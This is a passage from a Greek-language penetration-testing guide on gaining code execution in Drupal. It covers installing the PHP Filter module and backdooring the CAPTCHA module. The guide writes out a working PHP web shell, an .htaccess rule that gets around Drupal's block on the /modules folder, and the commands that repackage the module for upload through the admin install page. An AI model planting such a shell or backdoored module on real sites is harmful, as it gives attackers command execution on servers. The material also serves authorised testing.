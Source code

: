 Τέλος, απλά αποκτήστε πρόσβαση στον νεοδημιουργηθέντα κόμβο:
```bash
curl http://drupal-site.local/node/3
```
## Εγκατάσταση του PHP Filter Module

{% hint style="warning" %}
Στις τρέχουσες εκδόσεις δεν είναι πλέον δυνατή η εγκατάσταση πρόσθετων μόνο με πρόσβαση στο διαδίκτυο μετά την προεπιλεγμένη εγκατάσταση.
{% endhint %}

Από την έκδοση **8 και μετά, το** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **module δεν εγκαθίσταται προεπιλεγμένα**. Για να αξιοποιήσουμε αυτή τη λειτουργικότητα, θα πρέπει να **εγκαταστήσουμε το module μόνοι μας**.

1. Κατεβάστε την πιο πρόσφατη έκδοση του module από την ιστοσελίδα του Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Αφού κατεβεί, πηγαίνετε στο **`Administration`** > **`Reports`** > **`Available updates`**.
3. Κάντε κλικ στο **`Browse`**, επιλέξτε το αρχείο από τον φάκελο που το κατεβάσατε και στη συνέχεια κάντε κλικ στο **`Install`**.
4. Αφού εγκατασταθεί το module, μπορείτε να κάνετε κλικ στο **`Content`** και **να δημιουργήσετε μια νέα βασική σελίδα**, παρόμοια με το πώς κάναμε στο παράδειγμα του Drupal 7. Και πάλι, βεβαιωθείτε ότι **έχετε επιλέξει `PHP code` από το αναπτυσσόμενο μενού `Text format`**.

## Backdoored Module

{% hint style="warning" %}
Στις τρέχουσες εκδόσεις δεν είναι πλέον δυνατή η εγκατάσταση πρόσθετων μόνο με πρόσβαση στο διαδίκτυο μετά την προεπιλεγμένη εγκατάσταση.
{% endhint %}

Ένα backdoored module μπορεί να δημιουργηθεί **προσθέτοντας ένα shell σε ένα υπάρχον module**. Τα modules μπορούν να βρεθούν στην ιστοσελίδα drupal.org. Ας επιλέξουμε ένα module όπως το [CAPTCHA](https://www.drupal.org/project/captcha). Κάντε κύλιση προς τα κάτω και αντιγράψτε τον σύνδεσμο για το tar.gz [αρχείο](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Κατεβάστε το αρχείο και εξαγάγετε το περιεχόμενό του.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Δημιουργήστε ένα **PHP web shell** με τα περιεχόμενα:
```php
<?php
system($_GET["cmd"]);
?>
```
* Στη συνέχεια, πρέπει να δημιουργήσουμε ένα **`.htaccess`** αρχείο για να αποκτήσουμε πρόσβαση στον φάκελο. Αυτό είναι απαραίτητο καθώς το Drupal αρνείται την άμεση πρόσβαση στον φάκελο **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Η παραπάνω ρύθμιση θα εφαρμόσει κανόνες για τον φάκελο / όταν ζητάμε ένα αρχείο στον φάκελο /modules. Αντιγράψτε και τα δύο αυτά αρχεία στον φάκελο captcha και δημιουργήστε ένα αρχείο.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Υποθέτοντας ότι έχουμε **διοικητική πρόσβαση** στον ιστότοπο, κάντε κλικ στο **`Manage`** και στη συνέχεια στο **`Extend`** στη γραμμή πλοήγησης. Στη συνέχεια, κάντε κλικ στο κουμπί **`+ Install new module`** και θα μεταφερθούμε στη σελίδα εγκατάστασης, όπως `http://drupal-site.local/admin/modules/install`. Περιηγηθείτε στο αρχείο Captcha με backdoor και κάντε κλικ στο **`Install`**.